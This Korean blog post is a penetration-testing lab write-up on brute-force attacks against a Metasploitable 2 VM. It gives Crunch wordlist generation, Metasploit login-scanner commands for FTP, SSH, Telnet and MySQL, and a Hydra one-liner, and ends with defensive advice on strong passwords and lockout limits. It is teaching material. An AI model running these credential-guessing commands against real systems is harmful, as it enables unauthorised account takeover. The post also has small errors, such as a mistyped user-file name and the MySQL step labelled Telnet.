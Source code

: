 ```yaml
---
layout: post
toc: true
title: "모의해킹 : Brute force"
tags: [event]
author: accio
---
```


## <span style="color:#33FFFF;">모의해킹 : Brute force</span>
Brute force는 무차별 대입 공격으로 불리며 비밀번호를 탈취하기 위한 가장 고전적이면서 가장 효과적인 방법이다.
<br> 
이론상으로 아무리 복잡한 비밀번호 체계일지라도 충분한 시간만 주이지면 해독이 가능한 공격이다.
<br> 
<br>
<br>

<style type="text/css">
.tg  {border-collapse:collapse;border-spacing:0;}
.tg td{border-color:black;border-style:solid;border-width:1px;font-family:Arial, sans-serif;font-size:14px;
  overflow:hidden;padding:10px 5px;word-break:normal;}
.tg th{border-color:black;border-style:solid;border-width:1px;font-family:Arial, sans-serif;font-size:14px;
  font-weight:normal;overflow:hidden;padding:10px 5px;word-break:normal;}
.tg .tg-baqh{text-align:center;vertical-align:top}
.tg .tg-amwm{font-weight:bold;text-align:center;vertical-align:top}
</style>


<table class="tg">
<thead>
  <tr>
    <th class="tg-amwm">구분</th>
    <th class="tg-amwm">운영체제</th>
    <th class="tg-amwm">IP</th>
    <th class="tg-amwm">비고</th>
  </tr>
</thead>
<tbody>
  <tr>
    <td class="tg-baqh">공격자</td>
    <td class="tg-baqh">Kali linux</td>
    <td class="tg-baqh">172.16.27.140</td>
    <td class="tg-baqh">VM을 이용한 가상 환경</td>
  </tr>
  <tr>
    <td class="tg-baqh">희생자</td>
    <td class="tg-baqh">Metasploitable 2</td>
    <td class="tg-baqh">172.16.27.143</td>
    <td class="tg-baqh">VM을 이용한 가상 환경</td>
  </tr>
</tbody>
</table>
해당 공격을 실습하기 전 필요한 가상환경은 위 표와 같다.
<br>
<br>
<br>

### <span style="color:#66CCFF;">Crunch</span>
<span style="font-size:1em; color:#FF0033;">Crunch</span>도구를 통해 칼리리눅스에서 무차별 대입 공격에 필요한 비밀번호 항목을 생성할 수 있다.
```
# cat /usr/share/crunch/charset.lst
```
<div style="text-align:center;">
<figure>
<img src="https://user-images.githubusercontent.com/92027143/204799516-817219c6-d54e-4950-adc5-d0769daffd97.png" >
<figcaption>
cat /usr/share/crunch/charset.lst 명령어를 입력한 모습
</figcaption>
</figure>
</div>
위 명령어를 통해 크런치 사용법을 확인할 수 있다. 이 중에서 numeric 플래그를 이용하여 숫자로만 이뤄진 비밀번호를 생성한다.
<br>
<br>


```
# crunch 1 4 -f /usr/share/crunch/charset.lst numeric -o /root/passwords.txt
```
위 명령어는 4자리로 이뤄진 비밀번호를 생성하라는 의미다. 여기서 비밀번호를 생성한 이유는 무차별 대입 공격의 하나인 <span style="font-size:1em; color:#FF0033;">Dictionary 공격</span> 일명 사전 기반 공격을 하기 위함이다. 이렇게 무차별 대입 공격을 하기 위한 사전이 준비되어 있다.
<br>
<br>


```
# cat > /root/user.txt
root
```
추가적으로 위 명령어를 실행하여 관리자 계정으로 사용하는 단어를 작성한다.
<br>
root는 Unix/Linux 기반의 운영체제와 My-sql 서버 등에서 사용하는 관리자 계정이다.
<br> 
<br> 
<br> 

### <span style="color:#66CCFF;">공격 실습</span>
```
# msfconsole
```
공격 실습에 앞서 위 명령어를 통해 메타스플로잇에 접속한다.
<br>
<br>


```
use auxiliary/scanner/ftp/ftp_login
set rhosts 172.16.27.143
set user_file /root/users.tx
set pass_file /root/passwords.txt
set stop_on_success true
set threads 256
run
```
위 명령어를 이용하여 FTP 서비스를 대상으로 공격해본다.
<br>
<br>


```
use auxiliary/scanner/ssh/ssh_login
set rhosts 172.16.27.143
set user_file /root/users.tx
set pass_file /root/passwords.txt
set stop_on_success true
set threads 256
run
```
위 명령어를 이용하여 ssh 서비스를 대상으로 공격해본다.
<br>
<br>


```
use auxiliary/scanner/telnet/telnet_login
set rhosts 172.16.27.143
set user_file /root/users.tx
set pass_file /root/passwords.txt
set stop_on_success true
set threads 256
run
```
위 명령어를 이용하여 Telnet 서비스를 대상으로 공격해본다.
<br>
<br>


```
use auxiliary/scanner/mysql/mysql_login
set rhosts 172.16.27.143
set rport 3306
set user_file /root/users.tx
set pass_file /root/passwords.txt
set stop_on_success true
set threads 256
run
```
위 명령어를 이용하여 Telnet 서비스를 대상으로 공격해본다.
<br>

이렇게 메타스플로잇을 이용하여 무차별 대입 공격을 할 수 있다. 하지만 이 경우 시간이 오래 걸릴 수 있기 때문에 <span style="font-size:1em; color:#FF0033;">Hydra</span>를 이용하여 지연 시간을 줄일 수 있다.
<br> 
<br> 
<br>

### <span style="color:#66CCFF;">Hydra</span>
<span style="font-size:1em; color:#FF0033;">Hydra</span>는 모의 침투 운영체제에서 기본으로 제공하는 무차별 대입 공격 도구다.
<br>
```
# hydra -l root -P /root/passwords.txt -f 172.16.27.143 ftp
```
위 명령어를 이용하여 ftp 서비스를 대상으로 공격하며 뒤 서비스를 ssh, telnet으로 변경하면 다른 서비스에 공격할 수 있다.
<br>

이외에도 흔히 정보 수집 도구로만 알려진 Nmap으로도 무차별 대입 공격이 가능하다. Nmap의 NSE 모듈을 사용하여 공격을 수행할 수 있다.
<br>

<div style="text-align:center;">
<figure>
<img src="https://user-images.githubusercontent.com/92027143/204810812-099b9090-3ffb-48ff-b2da-b995b4c87cae.png" >
<figcaption>
my-sql을 대상으로 무차별 대입 공격
</figcaption>
</figure>
</div>
<br>
<br>
<br>

### <span style="color:#66CCFF;">실습 후기</span>
이론상 가장 효과적인 무차별 대입 공격 실습을 하면서 로그인 시도 횟수 및 효과적인 암호를 위해 특수문자, 대문자, 숫자 등 여러 기호를 넣어야 하는 이유에 대해 다시 생각 해볼 수 있었으며, 서버 또는 DB 구축 시 로그인 실패 횟수를 설정하여 해당 취약점에 대비해야 한다.
<br>
<br>
<br>

## <span style="color:#33FFFF;">Author</span>
<a href="https://accio3014.github.io/" target="_blank">accio</a>